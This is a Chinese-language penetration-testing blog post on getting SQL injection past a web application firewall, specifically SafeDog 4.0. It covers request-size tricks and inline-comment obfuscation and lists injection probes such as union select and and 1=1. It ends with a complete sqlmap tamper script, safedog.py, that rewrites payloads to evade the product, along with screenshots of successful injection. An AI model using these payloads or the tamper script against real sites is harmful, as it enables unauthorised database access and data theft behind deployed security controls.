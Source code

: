 ```yaml
---
title: 渗透测试中的Bypass技巧（三）自动化注入
layout: post
date: '2017-03-10'
categories: bypass
permalink: "/archivers/2017-03-10/1"
description: 某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
---
```


某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
<!--more-->

* 目录
{:toc}

## 0x00 匹配资源大小限制

某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。

Get方法提交的数据大小长度并没有限制，HTTP协议规范没有对URL长度进行限制。这个限制是特定的浏览器及服务器对它的限制。可见WAF可能在处理GET请求的时候，根据客户端（浏览器）规定的长度去匹配了，这就造成了一个缺陷。我们可以把有效数据放在这个限制的零界点，攻击语句放在零界点后方，让WAF以为这是一个正常请求，就随之放行，达到了攻击效果。

理论上讲，POST是没有大小限制的。HTTP协议规范也没有进行大小限制，起限制作用的是服务器的处理程序的处理能力。

例如在使用PHP进行POST提交时，文件大小受PHP配置文件PHP.INI限制，我们可以修改PHP.INI文件中的post_max_size参数，可将默认的2M字节，修改自己需要的大小，但由于HTTP协议的特性，这个值不宜设置过大，最大以8M为宜。假设如果服务器端设置了8M，而WAF默认只匹配2M，由此可见服务器端接受数据的大小>WAF匹配的数据最大大小。那么，我们可以根据上述方法，也可绕过WAF的拦截。


## 0x01 绕过某WAF上传

渗透测试中的Bypass技巧（二） - 知乎专栏

在上一章中我们已经举例了一个bypass上传，最重要的彩蛋就在Bypass注入啦~

## 0x02 绕过某WAF注入

我们构造一个SQL注入页面，慢慢去研究它的拦截规则：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-309291e5dd2a98bf8796bf049e7cb731_r.jpg)

先从普通的语句开始做定位：

* and 1=1

* and ‘s’=’s’

* union select 1,2,3

* `union/**/select/**/user(),2,3`

* ......

* 等价替换
* And ‘s’ like ‘s’

此时我们已经可以使用like用于盲注（此时可以将所有的 = 替换成 Like ）

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-d05618b362ce592aa4cb8b8381620b7a_r.jpg)

### 注释

我们可以设想出拦截的特征正则

union与select同时出现会被拦截，union\[空格,%20,/\*部分字符\*/\]select都会被拦截，目前普通的union select都会被拦截，既然空格,%20都会被匹配到，我们只能通过/\*\*/内联来注释了（目前发现N多姿势，在这里只共享思路+一个bypass的tamper脚本）

* `/**/`

* `/*数字+字母*/`

* `/*特殊符号+数字+字母*/`

* .....more


假设union左右如果有select就拦截的话，那么定位union与select之间的敏感字符就好，假设union`[空格]`select，此时如果把空格替换成任意内联，就可bypass这个规则，此时规则也不可能是一条的。条件也是很多的。我们也只能讲内联这个规则做手脚了。

于是乎我发现`/*^xxx^xxx*/`字母加特殊字符即可bypass。

因为每个特征中都没有匹配到^与小写字母、大写字母、数字的组合，这些条件可以继续测试，笔者已经把此文写到最佳精简，测试期间也翻看过拦截日志，定位拦截特征。

（Union注入）例如在读取：mysql密码、表名的时候，我们还会查询information_schema数据库，这个可以转换大小写，或者在information_schema.TABLES直接再添加一个注释。下面就是测试过程：首先测试简单的and 1=1


![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-8496c213549317823092929a2764f72a_r.jpg)


然后我们使用注释bypass:

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-79b4d5253c14457c4e4493b438b4231e_r.jpg)

此时已经bypass成功了，我在这里用的是某dog 4.0（3.5也可以）

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-f54a5d6fe18955781f3d14a8802d3d7b_hd.jpg)

## 0x03 自动化bypass注入

我们通过编写sqlmap的tamper用于bypass，主要是需要定位各种拦截点，使用sqlmap替换Payload。

首先在sqlmap的tamper文件夹里创建一个safedog.py，编写我们的tamper脚本

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-78c541db6e25a98c01a0d3556fd5d321_r.jpg)

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload):
    if payload:
		bypass_SafeDog_str = "/*x^x*/"
		payload=payload.replace("UNION",bypass_SafeDog_str+"UNION"+bypass_SafeDog_str)
		payload=payload.replace("SELECT",bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str)
		payload=payload.replace("AND",bypass_SafeDog_str+"AND"+bypass_SafeDog_str)
		payload=payload.replace("=",bypass_SafeDog_str+"="+bypass_SafeDog_str)
		payload=payload.replace(" ",bypass_SafeDog_str)
		payload=payload.replace("information_schema.","%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/")
		payload=payload.replace("FROM",bypass_SafeDog_str+"FROM"+bypass_SafeDog_str)
		#print "[+]THE PAYLOAD RUNNING...Bypass safe dog 4.0 apache version ."
		print payload
    return payload
```

我们测试一下先不载入tamper脚本：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-66446e8f8f6a49347e8a181bfbf79b73_hd.jpg)

到了这基本没戏了，我们看看拦截日志

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-38178932222e08df8395ac117fa8ec6d_r.jpg)

现在载入tamper脚本：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-070979a6ee68c8f3c0fc0ce384fd12a9_r.jpg)

可以看到已经载入，并且识别了waf指纹。



以下是跑脚本的过程

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-3cbe15d14ddef776ddca44a353768be6_r.jpg)

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-40d2293817e8e2a87d4281d71fe5f9d2_hd.jpg)

支持布尔值注入

支持union注入

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-091cfa9e51da47e78bf301db3c35f95b_hd.jpg)